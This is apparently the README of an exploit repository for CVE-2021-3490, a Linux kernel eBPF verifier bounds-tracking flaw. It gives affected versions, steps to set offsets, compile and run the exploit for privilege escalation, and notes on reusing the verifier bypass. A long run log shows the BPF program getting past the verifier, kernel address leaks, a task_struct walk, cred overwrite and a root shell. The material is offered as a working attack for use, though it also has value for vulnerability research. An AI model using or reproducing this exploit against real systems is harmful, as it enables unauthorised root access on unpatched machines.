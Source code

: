 # CVE-2021-3490
The eBPF ALU32 bounds tracking for bitwise ops (AND, OR and XOR) in the Linux kernel did not properly update 32-bit bounds, which could be turned into out of bounds reads and writes in the Linux kernel and therefore, arbitrary code execution. 

## Affect
This issue was fixed via commit 049c4e13714e ("bpf: Fix alu32 const subreg bound tracking on bitwise operations") (v5.13-rc4) and backported to the stable kernels in v5.12.4, v5.11.21, and v5.10.37. 
The AND/OR issues were introduced by commit 3f50f132d840 ("bpf: Verifier, do explicit ALU32 bounds tracking") (5.7-rc1) and the XOR variant was introduced by 2921c90d4718 ("bpf:Fix a verifier failure with xor") ( 5.10-rc1).

## Use
1. Modify all offsets marked as `#define OFF_` in exploit.c (If vmlinux/bzImage with debuginfo is available,  use `./get_offset.py` to get offsets)
2. Run `./compile.sh` to build
3. Run `./exploit` and get privilege escalation

## Further use
1. Get a piece of ebpf code that bypasses the verifier to implement BPF_REG_6 of value `verify:0   fact:1` 
2. Fill the ebpf code into `struct bpf_insn prog[]` trigger vulnerability stage


## Test
Work in [ubuntu linux 5.11.0](https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/linux-hwe-5.11/5.11.0-60.60/linux-hwe-5.11_5.11.0.orig.tar.gz) 

Not work (both CVE-2021-3490 and 板子) in [linux 5.16.12](https://cdn.kernel.org/pub/linux/kernel/v5.x/linux-5.16.12.tar.xz), can't leak any address


```
/ $ ./exploit
[*] sneaking evil bpf past the verifier
processed 230 insns (limit 1000000) max_states_per_insn 1 total_states 20 peak_states 20 mark_read 3

[*] creating socketpair()
[*] attaching bpf backdoor to socket
leak addr: 0xffffffff820363e0
linux base: 0xffffffff81000000
value addr: 0xffff888004d8e110
init_pid_ns addr: 0xffffffff82a6b2c0
self pid is 124
task_struct addr: 0xffff888003a04500
iter pid 1 ...
[+] iter task 0xffff888003a00000 ...
iter pid 2 ...
[+] iter task 0xffff888003a01700 ...
iter pid 3 ...
[+] iter task 0xffff888003a02e00 ...
iter pid 4 ...
[+] iter task 0xffff888003a05c00 ...
iter pid 5 ...
[+] iter task 0xffff888003a31700 ...
iter pid 6 ...
[+] iter task 0xffff888003a32e00 ...
iter pid 7 ...
[+] iter task 0xffff888003a35c00 ...
iter pid 8 ...
[+] iter task 0xffff888003a34500 ...
iter pid 9 ...
[+] iter task 0xffff888003a30000 ...
iter pid 10 ...
[+] iter task 0xffff888003a49700 ...
iter pid 11 ...
[+] iter task 0xffff888003a4ae00 ...
iter pid 12 ...
[+] iter task 0xffff888003a4dc00 ...
iter pid 13 ...
[+] iter task 0xffff888003a4c500 ...
iter pid 14 ...
[+] iter task 0xffff888003a48000 ...
iter pid 15 ...
[+] iter task 0xffff888003a7ae00 ...
iter pid 16 ...
[+] iter task 0xffff888003a7dc00 ...
iter pid 17 ...
[+] iter task 0xffff888003a7c500 ...
iter pid 18 ...
[+] iter task 0xffff888003a78000 ...
iter pid 19 ...
[+] iter task 0xffff888003a79700 ...
iter pid 20 ...
[+] iter task 0xffff888003b54500 ...
iter pid 21 ...
[+] iter task 0xffff888003b50000 ...
iter pid 22 ...
[+] iter task 0xffff888003b51700 ...
iter pid 23 ...
[+] iter task 0xffff888003b52e00 ...
iter pid 24 ...
[+] iter task 0xffff888003b55c00 ...
iter pid 25 ...
[+] iter task 0xffff888003b95c00 ...
iter pid 71 ...
[+] iter task 0xffff888003b92e00 ...
iter pid 72 ...
[+] iter task 0xffff888003b91700 ...
iter pid 73 ...
[+] iter task 0xffff888003b94500 ...
iter pid 74 ...
[+] iter task 0xffff888003b90000 ...
iter pid 75 ...
[+] iter task 0xffff888003bb9700 ...
iter pid 76 ...
[+] iter task 0xffff888003bb8000 ...
iter pid 77 ...
[+] iter task 0xffff888003bbc500 ...
iter pid 78 ...
[+] iter task 0xffff888003bbdc00 ...
iter pid 79 ...
[+] iter task 0xffff888003bbae00 ...
iter pid 80 ...
[+] iter task 0xffff888003b70000 ...
iter pid 81 ...
[+] iter task 0xffff888003b71700 ...
iter pid 82 ...
[+] iter task 0xffff888003b72e00 ...
iter pid 83 ...
[+] iter task 0xffff888003b74500 ...
iter pid 85 ...
[+] iter task 0xffff888003b75c00 ...
iter pid 86 ...
[+] iter task 0xffff888003bb4500 ...
iter pid 87 ...
[+] iter task 0xffff888003bb5c00 ...
iter pid 88 ...
[+] iter task 0xffff888003bb2e00 ...
iter pid 89 ...
[+] iter task 0xffff888003bb1700 ...
iter pid 90 ...
[+] iter task 0xffff888003bb0000 ...
iter pid 91 ...
[+] iter task 0xffff888003ba8000 ...
iter pid 92 ...
[+] iter task 0xffff888003bac500 ...
iter pid 93 ...
[+] iter task 0xffff888003badc00 ...
iter pid 94 ...
[+] iter task 0xffff888003ba9700 ...
iter pid 96 ...
[+] iter task 0xffff888003b98000 ...
iter pid 104 ...
[+] iter task 0xffff888003b9c500 ...
iter pid 107 ...
[+] iter task 0xffff888003b99700 ...
iter pid 108 ...
[+] iter task 0xffff888003b8ae00 ...
iter pid 113 ...
[+] iter task 0xffff888003b8c500 ...
iter pid 122 ...
[+] iter task 0xffff888003b89700 ...
iter pid 123 ...
[+] iter task 0xffff888003b88000 ...
iter pid 124 ...
got it!
get cred_addr 0xffff888003b7ec00
cred->usage: 8
getting shell!
/ # 
```

## REF
- [CVE-2021-3490 Kernel Pwning with eBPF: a Love Story](https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story)
- [CVE-2021-3490 eBPF 32位边界计算错误漏洞利用分析](https://www.anquanke.com/post/id/251933#h2-1)
- [CVE-2021-3490 exp by bsauce](https://github.com/bsauce/kernel-exploit-factory/blob/main/CVE-2021-3490/exp/5.11/CVE-2021-3490.c)

